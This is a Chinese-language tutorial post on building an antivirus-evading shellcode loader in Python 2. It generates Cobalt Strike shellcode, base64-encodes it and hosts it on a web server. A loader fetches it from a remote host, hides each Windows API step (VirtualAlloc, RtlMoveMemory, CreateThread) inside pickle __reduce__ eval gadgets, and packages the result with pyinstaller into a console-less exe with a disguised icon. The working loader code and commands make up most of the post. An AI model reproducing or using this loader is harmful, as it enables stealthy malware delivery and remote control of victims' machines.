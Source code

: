 ```yaml
---
title: 基于加载器的python反序列化免杀(打包生成的exe暂只支持win7可执行)
tags:
  - 免杀
---
```

### 基于加载器的python反序列化免杀(打包生成的exe暂只支持win7可执行)

<strong>PS：来自moonsec师傅的分享</strong>

#### 0x01 环境配置

Win10 x64

Win7  x64

Python 2.7.18

Pyinstaller3.4

CS4.0

<strong> pip install pyinstaller==3.4 -i https://pypi.doubanio.com/simple/ </strong>

|---------------------------------------------------------------------------------------|

#### [0x02 免杀原理]

利用反序列化加载器绕过杀软基于特征的免杀。利用编码绕过shellcode的查杀。可以将加密好的shellcode放在远程服务器上，再加载不同的shellcode，进行扩展。

#### 0x03 制作加密shellcode

利用cs获取shellcode

![](_posts/media/e0aa28720b9c4622e4d0a6ca71e13fb4.png)

此处选择python语言，以及使用x64payload，否则执行python文件时会中断。

![](media/a398c4e7bf777025737ed5a996feec68.png)

此处生成payload为：

![](media/8310ab75b4e0a155e8b54989c05e9269.png)

使用任意方式进行加密，此处采用base64进行。

用生成payload替换buf

<strong> import base64,urllib2 <br> buf = "shellcode" <br> html = base64.b64encode(buf) print html </strong>


|---------------------------------------------------------------------------------------|


将使用base64加密后的payload保存为txt文件，然后放在可访问web目录下。

![](media/38fa0ebdce2832091cde822472d890fa.png)

使用如下脚本测试是否能够获取到解密后的payload

<strong>import base64,urllib2 <br> html = urllib2.urlopen('http://192.168.176.129:8000/base.txt').read().decode('base64') print html </strong>

此处看到ip表示解密未出现问题。

![](media/c20169b6d62cf1444bbeb9d0da605c74.png)

#### 0x04 使用加载器加载payload

使用如下加载器尝试加载执行：<br>
import ctypes,cPickle,base64,urllib2<br>
class ptr(object):<br>

    def __reduce__(self):
        return (eval, ("urllib2.urlopen('http://192.168.176.129:8000/base.txt').read().decode('base64')",))
class buf(object):<br>

    def __init__(self,shellcode):
        self.shellcode = shellcode

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.VirtualAlloc(0,len(shellcode),0x1000,0x40)",))

class windll(object):

    def __init__(self,rwxpage,shellcode):
        self.rwxpage = rwxpage
        self.shellcode = shellcode

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.RtlMoveMemory(rwxpage,ctypes.create_string_buffer(shellcode),len(shellcode))",))

class ht(object):

    def __init__(self,rwxpage):
        self.rwxpage = rwxpage

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.CreateThread(0,0,rwxpage,0,0,0)",))

class run(object):
    def __init__(self,handle):
        self.handle = handle

    def __reduce__(self):
        return (eval,("ctypes.windll.kernel32.WaitForSingleObject(handle,-1)",))

if __name__ == '__main__':

    raw_shellcode = ptr()
    ser_shellcode = cPickle.dumps(raw_shellcode)
    emb32_shellcode = base64.b32encode(ser_shellcode)
    shellcode = cPickle.loads(base64.b32decode(emb32_shellcode))

    raw_vir = buf(shellcode)
    ser_vir = cPickle.dumps(raw_vir)
    emb32_vir = base64.b32encode(ser_vir)
    rwxpage = cPickle.loads(base64.b32decode(emb32_vir))

    raw_rtl = windll(rwxpage,shellcode)
    ser_rtl = cPickle.dumps(raw_rtl)
    emb32_rtl = base64.b32encode(ser_rtl)

    raw_handle = ht(rwxpage)
    ser_handle = cPickle.dumps(raw_handle)
    emb32_handle = base64.b32encode(ser_handle)
    handle = cPickle.loads(base64.b32decode(emb32_handle))

    raw_run = run(handle)
    ser_run = cPickle.dumps(raw_run)
    emb32_run = base64.b32encode(ser_run)

    output = '''import ctypes,cPickle,base64,urllib2

e_shellcode = "{}"
shellcode = cPickle.loads(base64.b32decode(e_shellcode))

e_rwxpage="{}"
rwxpage = cPickle.loads(base64.b32decode(e_rwxpage))

e_code = "{}"
cPickle.loads(base64.b32decode(e_code))

e_handle = "{}"
handle = cPickle.loads(base64.b32decode(e_handle))

e_run = "{}"
cPickle.loads(base64.b32decode(e_run))'''.format(emb32_shellcode,emb32_vir,emb32_rtl,emb32_handle,emb32_run)

    with open('shellcode.py','w') as f:
        f.write(output)
        f.close() 

|---------------------------------------------------------------------------------------|

执行py文件后，会在该文件目录下生成shellcode.py，使用python执行后，查看CS是否上线：

![](media/5aa8c2c6a950c1a4275d484eff957f3e.png)

如成功上线，使用pyinstaller生成exe可执行文件。

#### 0x05 pyinstaller生成exe文件

pyinstaller生成指定图标无命令行的exe文件

<strong> pyinstaller.exe –noconsole –onefile shellcode.py -i 128.ico -n shellcode </strong>



![](media/bf36cb2d74e7d10cf0cd41661f2deadc.png)

生成默认目录为pyinstaller.exe所在目录中的dist目录下

![](media/67faca8a79d2c4a479fb3d551ca7fd57.png)
